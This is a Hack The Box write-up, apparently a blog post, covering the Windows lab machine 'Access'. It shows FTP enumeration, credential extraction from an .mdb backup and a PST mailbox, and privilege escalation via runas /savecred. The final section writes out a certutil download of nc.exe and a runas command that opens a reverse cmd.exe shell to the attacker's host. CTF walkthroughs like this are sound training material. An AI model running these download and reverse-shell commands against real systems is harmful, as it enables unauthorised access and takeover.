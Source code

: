 ```yaml
---
layout: post
title: Hack The Box - Access
categories: hack-the-box
tags: [Windows, ftp]
image: /hackthebox/access/0.png
---
```


<hr>
### Quick Summary 
#### Hey guys today Access retired and this is my write-up. I don't have too much to say about this box , It was a nice easy windows box and a good example of using `runas` in windows , Which is like `sudo` in linux and `doas` in openbsd (we used `doas` in [Ypuffy](/hack-the-box/ypuffy)). It's a windows box and its ip is 10.10.10.98 , I added it to `/etc/hosts` as `access.htb`
![](/images/hackthebox/access/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC access.htb`
![](/images/hackthebox/access/1.png)
#### Nmap tells us that there's ftp running on port 21 , telnet on port 23 and http on port 80. It also tells us that we can login anonymously to ftp. Let's look at http first.
<br>
<hr>
### HTTP Enumeration 
#### We get this page titled as "MegaCorp" and it only has this image :
![](/images/hackthebox/access/2.png)
#### Sub directories enumeration with `gobuster` and `common.txt` (`/usr/share/wordlists/dirb/common.txt` in kali) only gave us 2 pages , `/aspnet_client` and `/index.html` 
![](/images/hackthebox/access/3.png)
#### `/aspnet_client` gave us `403` Forbidden :
![](/images/hackthebox/access/4.png)
#### And `/index.html` is of course the main page we saw earlier :
![](/images/hackthebox/access/5.png)
#### So now we know that http has nothing , Next thing to check is ftp
<br>
<hr>
### FTP Enumeration
#### Nmap told us earlier that anonymous login on ftp was allowed , After we login we find 2 directories `Backups` and `Engineer`
![](/images/hackthebox/access/6.png)
#### In `Backups` there is only one file called `backup.mdb` , we will type `binary` to set the transfer mode to binary , so we won't get a corrupted file. Then `get backup.mdb` to download it :
![](/images/hackthebox/access/7.png)
#### And in `Engineer` there's a file called `Access Control.zip` :
![](/images/hackthebox/access/8.png)
<hr>
### Extracting credentials from backup.mdb and getting User
#### `backup.mdb` is a Microsoft Access Database , we can check using `file` :
![](/images/hackthebox/access/9.png)
#### We need mdbtools to deal with this database , it can be installed with `apt`
`apt-get install mdbtools`
#### We will use `mdb-tables` to get the table names : 
![](/images/hackthebox/access/10.png)
#### There's an interesting table named `auth_user` , We will use `mdb-export` to get the contents of that table :
`mdb-export backup.mdb auth_user`
![](/images/hackthebox/access/11.png)
#### And it gave us some credentials : 
`admin : admin`
<br>
<br>
`engineer : access4u@security`
<br>
<br>
`backup_admin : admin`
#### By looking at the other `zip` file we will find a file called `Access Control.pst` and it's a password protected file.
![](/images/hackthebox/access/12.png)
#### We already have 2 passwords : `admin` and `access4u@security`. `access4u@security` is the right password.
![](/images/hackthebox/access/13.png)
#### `Access Control.pst` is a Microsoft Outlook email folder : 
![](/images/hackthebox/access/14.png)
#### We can use a tool called `readpst` to be able to read the file :
`readpst Access\ Control.pst`
![](/images/hackthebox/access/15.png)
#### It will create another file called `Access Control.mbox` , Let's `cat` that file :
![](/images/hackthebox/access/16.png)
#### The very first thing we see is this email which has credentials for an account called `security` , password : `4CcessC0ntr0ller`
#### Let's `telnet` into the box with those credentials : 
`telnet access.htb`
![](/images/hackthebox/access/17.png)
#### And we owned user !
<br>
<hr>
### runas and Privilege Escalation
#### As always we will start enumerating the filesystem , There are only 3 users on the box `Administrator` , `Public` and `security`.
![](/images/hackthebox/access/18.png)
#### We are in as `security` and we can't go into Administrator's directory so let's check Public.
#### In the Desktop of `Public` there's a `lnk` called `ZKAccess3.5 Security System`.
![](/images/hackthebox/access/19.png)
#### Let's `type` it and see what's inside it :
![](/images/hackthebox/access/20.png)
#### Of course not the best output , because it's a `lnk` file not a `txt` file , but we can read some stuff , and we notice that there's a `runas` command being excuted as administrator. `runas` allows us to run commands as another user and the option `/savecred` allows us to use the command without asking for password. Looking into Public's desktop is not necessary to know that, we can check by executing `net user administrator`
![](/images/hackthebox/access/21.png)
#### `Password required` is set to `No` , If this was set to `Yes` we wouldn't be able to use `runas` as administrator without knowing the password , However that `lnk` file on Public's desktop was a nice hint.
#### Now we can run a simple HTTP server on our box with python and host `nc.exe` : `python -m SimpleHTTPServer 80` `80` is the port number and it can be anything 
#### You can get `nc.exe` from github [here](https://github.com/diegocr/netcat/blob/master/nc.exe) , I also remember that I included another link in [SecNotes write-up](/hack-the-box/secnotes)
#### Then we will download it on the box :
`certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`
![](/images/hackthebox/access/22.png)
#### After that we will set up our nc listener `nc -lvnp 1337` `1337` is the port number and it can be anything.
#### Finally we will use `runas` to get a reverse shell :
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"`
![](/images/hackthebox/access/23.png)
#### Let's check our listener :
![](/images/hackthebox/access/24.png)
#### We have a shell.
![](/images/hackthebox/access/25.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
#### Next Hack The Box write-up : [Hack The Box - Ethereal](/hack-the-box/ethereal/)
<hr>
